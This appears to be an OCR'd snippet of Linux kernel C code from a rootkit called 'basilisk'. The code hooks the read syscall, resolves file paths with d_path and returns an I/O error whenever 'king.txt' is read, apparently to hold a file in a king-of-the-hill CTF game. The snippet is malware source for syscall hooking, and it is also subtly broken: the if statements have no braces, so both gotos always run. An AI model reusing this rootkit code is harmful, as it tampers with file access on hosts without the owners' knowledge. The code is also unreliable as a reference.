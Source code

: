 /*
 * struct fd {
 *	struct file *file;
 *	unsigned int flags;
 * };
 * struct file {
 	*
	* Protects f_ep, f_flags.
	* Must not be taken from IRQ context.
	*
	spinlock_t		f_lock;
	fmode_t			f_mode;
	atomic_long_t		f_count;
	struct mutex		f_pos_lock;
	loff_t			f_pos;
	unsigned int		f_flags;
	struct fown_struct	f_owner;
	const struct cred	*f_cred;
	struct file_ra_state	f_ra;
	struct path		f_path; <-- THIS IS WHAT WE ARE AFTER
	struct inode		*f_inode;	* cached value 
	const struct file_operations	*f_op;
	
	[ REDACTED ]
 * }
 *
 * struct path {
	struct vfsmount *mnt;
	struct dentry *dentry;
 * } __randomize_layout;
 *

    struct fd f = fdget_pos(fd);
    struct path f_path = f.file->f_path;    
    
    // d_path stuff
    char *ret_ptr = NULL; 
    char *tpath = kmalloc(1024, GFP_KERNEL);
   
    int ret;
    char *filename = "king.txt";
    char *resolved_filename;
    
    ret_ptr = d_path(&f_path, tpath, 1024);
    if (IS_ERR(ret_ptr))
	pr_err("basilisk: d_path failed\n");
	goto out_err;
    

    resolved_filename = strrchr(ret_ptr, '/');
    if (resolved_filename)
        resolved_filename++; 
    else
        resolved_filename = ret_ptr; 

    // Compare the extracted filename with the provided filename
    ret = strcmp(resolved_filename, filename) == 0;
    if (ret)
	pr_info("basilisk: attempt reading king.txt");
        goto out_err;

    fdput_pos(f);
    path_put(&f_path);
    kfree(tpath);
    
    return orig_read(regs);

out_err:
    fdput_pos(f);
    path_put(&f_path);
    kfree(tpath);
    return -EIO;
 * We can use the path struct to pass it in the function d_path in order to retrieve the filename.
 * */
